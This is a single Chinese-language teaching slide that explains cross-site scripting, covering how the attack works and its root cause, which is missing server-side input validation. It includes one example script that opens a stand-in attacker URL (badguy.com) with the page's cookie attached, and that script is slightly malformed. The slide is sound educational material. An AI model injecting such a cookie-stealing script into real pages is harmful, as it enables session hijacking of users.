

# 跨站脚本攻击
工作原理： 输入插入包含有JavaScript或其它恶意脚本的HTML标签代码。
嵌入JavaScript 脚本的例子：

<script>
        window.open( http://badguy.com/info.pl?document.cookie
</script>
问题根源：没有适当的服务器端输入检查，从而允许用户输入可被客户端浏览器解释的脚本命令。
XSS是最普遍的Web程序安全问题。